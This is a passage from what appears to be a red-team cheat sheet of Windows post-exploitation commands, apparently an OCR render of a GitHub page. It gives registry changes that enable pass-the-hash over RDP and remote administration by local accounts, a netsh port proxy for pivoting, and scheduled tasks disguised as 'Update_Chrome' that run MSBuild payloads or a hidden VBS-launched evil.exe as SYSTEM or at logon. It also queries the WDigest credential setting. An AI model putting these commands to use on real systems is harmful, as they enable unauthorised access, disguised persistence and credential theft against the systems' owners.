 ```
reg add HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYSTEM /V LocalAccountTokenFilterPolicy /t REG_DWORD /d 1
```
## Enable Restricted Admin - aka unlock pass the hash for RDP - “Account Restrictions are preventing this user from signing in.” 
```
reg query HKLM\System\CurrentControlSet\Control\Lsa
reg add HKLM\System\CurrentControlSet\Control\Lsa /V DisableRestrictedAdmin /t REG_DWORD /d 0x0
```
## Port redirection with netsh
``` 
netsh interface portproxy add v4tov4 listenaddress=192.168.1.100 listenport=445 connectaddress=192.168.10.200 connectport=445
```
## Scheduled tasks (schtasks)
Create(as admin/system):
```
schtasks /create /tn "Update_Chrome" /tr "c:\windows\Microsoft.NET\Framework64\v4.0.30319\Msbuild.exe evil.txt" /np /sc DAILY /st 15:15 /f /RI 60 /du 48:00 /ru SYSTEM
```
Create(as user):
```
schtasks /create /tn "Update_Chrome2" /tr "c:\windows\Microsoft.NET\Framework64\v4.0.30319\Msbuild.exe evil.txt" /sc DAILY /st 15:15 /f /RI 60 /du 48:00
```
Create(as user) run even if user is not logged on(to test):
```
schtasks /create /tn "Update_Chrome3" /tr "c:\windows\Microsoft.NET\Framework64\v4.0.30319\Msbuild.exe evil.txt" /np DAILY /st 15:15 /f /RI 60 /du 48:00
```
Create a Hidden Scheduled Task (as the current user) using VBS (to hide window) and execute it when the user logon (import via XML)
```
cmd.exe /c echo CreateObject("Wscript.Shell").Run "c:\user\user1\evil.exe c:\user\user1\evil.txt", 0, false > Chrome_Update4.vbs
upload Task.xml
schtasks /create /tn "Update_Chrome4" /xml Task.xml
```
Query/Verify if exists (or if AV blocked it):
```
schtasks /query /fo list /tn Update_Chrome
```
List all Tasks available at root via Powershell:
```
Get-ScheduledTask -TaskPath "\"
```
List all Disabled tasks via Powershell:
```
Get-ScheduledTask | ? state -eq Disabled
```
Delete:
```
schtasks /delete /tn Update_Chrome /f
```
## Playing with Registry (aaand WDigest)
Query
```
CMD:
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
PS1:
Get-Item -path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
```